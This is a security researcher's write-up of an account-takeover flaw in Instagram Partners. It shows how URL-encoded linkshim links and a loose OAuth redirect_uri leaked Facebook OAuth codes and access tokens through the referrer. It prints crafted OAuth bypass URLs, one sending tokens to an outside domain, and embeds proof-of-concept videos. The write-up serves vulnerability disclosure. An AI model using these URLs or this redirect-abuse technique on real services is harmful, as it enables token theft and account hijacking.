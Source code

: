 >Getting code and access token of instagram partners account through referrer leakage using linkshim flaw and instagram oauth

This issue allowed me to take over the insta partners account code and access_token.

Instagram partners uses facebook for authentication. The redirect_uri for the fb oauth is `instagrampartners.com`. But a small
misconfiguration in redirect_uri helped me to take over the access_token.

Partners was allowing `instagram.com` as a domain for redirection and even subdomains `*.instagram.com`. There is no option for me 
except linkshim or oauth to bypass. linkshim clears the referrer and remaining headers before redirecting.

Redirection bypass contained url encoded elements which helped parameters from facebook to escape the linkshim of instagram. Using 
url encoding helped linkshim url with access token to leak through referrer.

Example consider this linkshim instagram url:

>http://l.instagram.com/?e=ATOXOxtB9yyG_wGoXgyErxBx3KAgobQMKybv-L8O_PEdXI0Z4rqoawet2349Lw&u=http://google.com/

Linkshim bypass url :

>http://l.instagram.com/?e%3DATOXOxtB9yyG_wGoXgyErxBx3KAgobQMKybv-L8O_PEdXI0Z4rqoawet2349Lw%26u%3Dhttp://google.com

Oauth bypass url : 

>https://www.facebook.com/v2.2/dialog/oauth?client_id=1672090479675902&redirect_uri=http%3A%2F%2Fl.instagram.com%2F%3Fe%3DATNqsDRx0x7ZVfVF282iVvW4zr6QOhmME_M35bNw6rHrt6L30ajQ2t-YStDi6g%26u%3Dhttp%3A%2F%2Fgoogle.com%2F&scope=public_profile%2Cemail&response_type=code


Proof of concept : 

<iframe src="https://drive.google.com/file/d/0BycKB4yADa3bZk4zMU9TdUFQMzg/preview" width="640" height="480"></iframe>


Code it self can't do any thing without `client_secret` and same redirect url (instagrampartners.com) is required for explict authentication from server side.
Linkshim was not allowing url fragments. When `response_type` is set to `token`, It returns in the from of fragment. So anything
after `#` is negelected by linkshim. I used oauth to bypass the restrictions by linkshim.

Oauth bypass url using oauth :

>https://www.facebook.com/v2.2/dialog/oauth?client_id=1672090479675902&scope=public_profile%2Cemail&response_type=token&redirect_uri=https%3A%2F%2Fwww.instagram.com%2Foauth%2Fauthorize%2F%3Fclient_id%3D{REDACTED}%26response_type%3Dcode%26redirect_uri%3Dhttp%3A%2F%2Fmunchinng.com%2F%26state%3D

Proof of concept :

<iframe src="https://drive.google.com/file/d/0BycKB4yADa3bZTJEdmtIc1lMUDA/preview" width="640" height="480"></iframe>


